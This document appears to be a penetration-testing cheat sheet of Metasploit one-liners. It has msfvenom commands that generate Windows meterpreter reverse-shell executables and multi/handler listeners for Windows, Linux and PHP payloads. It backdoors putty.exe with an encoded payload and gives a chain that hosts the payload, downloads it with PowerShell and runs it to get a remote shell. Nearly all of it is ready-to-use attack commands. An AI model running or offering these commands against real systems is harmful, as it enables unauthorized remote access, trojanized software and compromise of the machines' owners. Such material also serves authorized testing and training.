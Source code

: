 Create payload and listener "One Liners"
------------------------------------------------
```bash
# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=443 -f exe > ./reverse3.exe
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set PORT 1234; run"
# Linux
msfconsole -x "use exploit/multi/handler; set payload linux/x86/meterpreter_reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set PORT 1234; run"
# PHP
msfconsole -x "use exploit/multi/handler; set PAYLOAD php/meterpreter/reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set PORT 1234; run"
```

Start meterpreter listener for a Windows payload
------------------------------------------------
```bash
# Create Payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=443 -f exe > ./reverse3.exe
# Start Listener
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 443
exploit
```

Backdoor a Windows Feedback Executable
------------------------------
```bash
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lport= 4444 lhost=xxx.xxx.xxx.xxx -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
```
Generate Payload -> powershell to download -> execute 
--------------------------------------------------------------------
```bash
# Generate payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=7777 -f exe > ./reverse3.exe
# Start Webserver to download
php -S <locahost-ip-address>:80
# Start listener
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 7777
exploit
# Use PowerShell to download payload
powershell Invoke-WebRequest http://xxx.xxx.xxx.xxx:80/reverse3.exe -O 'C:\path\where\you\can\create\files\reverse3.exe'
# Execute payload (try different quotes as needed)
"C:\path\where\you\can\create\files\reverse3.exe"
```

